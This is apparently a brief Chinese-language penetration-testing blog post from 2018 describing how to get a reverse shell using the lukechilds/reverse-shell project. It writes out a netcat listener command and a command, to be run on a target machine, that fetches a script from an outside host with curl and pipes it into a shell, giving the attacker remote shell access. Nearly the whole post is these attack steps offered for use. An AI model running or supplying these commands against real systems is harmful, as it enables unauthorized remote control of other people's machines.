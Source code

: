 ```yaml
---
title: reverse-shell
date: 2018-02-03 14:26:37
tags:
	- 渗透测试
categories:
	- 渗透测试

---
```


![](https://ws1.sinaimg.cn/large/006Y6f53gy1fo3avdpsuqj30rl0efmx7.jpg)
<!--more-->

反向`shell`,它可以穿过防火墙并连接到互联网。

`github`项目地址：
[https://github.com/lukechilds/reverse-shell](https://github.com/lukechilds/reverse-shell)




### 步骤

#### 1、监听端口
    nc -lvvp 1337

![](https://ws1.sinaimg.cn/large/006Y6f53gy1fo3asm9s45j30rl0efweg.jpg)

#### 2、在目标上执行反向shell


    curl https://shell.now.sh/主机名/域名或者ip:1337 | SH

![](https://ws1.sinaimg.cn/large/006Y6f53gy1fo3aurqh80j30ho04gq2v.jpg)



#### 3、得到shell

![](https://ws1.sinaimg.cn/large/006Y6f53gy1fo3avdpsuqj30rl0efmx7.jpg)


**总结：**

- 学会了反向shell




